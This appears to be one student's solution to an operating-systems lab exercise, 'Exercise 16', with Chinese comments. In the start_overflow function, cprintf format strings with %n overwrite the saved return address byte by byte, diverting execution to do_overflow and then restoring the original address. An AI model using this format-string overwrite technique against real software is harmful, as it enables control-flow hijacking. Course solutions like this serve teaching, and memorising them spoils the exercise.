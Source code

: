 

### Exercise 16

```c
void
start_overflow(void)
{
    char str[256] = {};
    int nstr = 0;
    char *pret_addr;

    // Your code here.
    pret_addr = (char*)read_pretaddr();	// 读取eip所在的地址
    
    // 原本的ret addr：0xF0100A24(overflow_me)
    cprintf("old rip: %lx\n", *(uint32_t*)pret_addr);	
    cprintf("%45d%n\n",nstr, pret_addr);	// 更改 0x24 -> 0x2d
    cprintf("%9d%n\n",nstr, pret_addr+1);	// 更改 0x0A -> 0x09 
    // 新的ret addr: 0XF010092d(do_overflow)
    cprintf("new rip: %lx\n", *(uint32_t*)pret_addr);	

    //	在8(%ebp)处填入原本的ret addr，这样do_overflow才能正常return
    cprintf("%36d%n\n",nstr, pret_addr+4);	// 填入0x24
    cprintf("%10d%n\n", nstr, pret_addr+5);	// 填入0x0A
    cprintf("%16d%n\n",nstr, pret_addr+6);	// 填入0x10
    cprintf("%240d%n\n",nstr, pret_addr+7);	// 填入0xF0
    
    /*
    	| BLANK |							| overflow_me addr |
    	| overflow_me addr |				| do_overflow addr |
    	| last ebp |						| last ebp |  
    
    	  old stack		 ------------>  	  new stack
    */
}
```

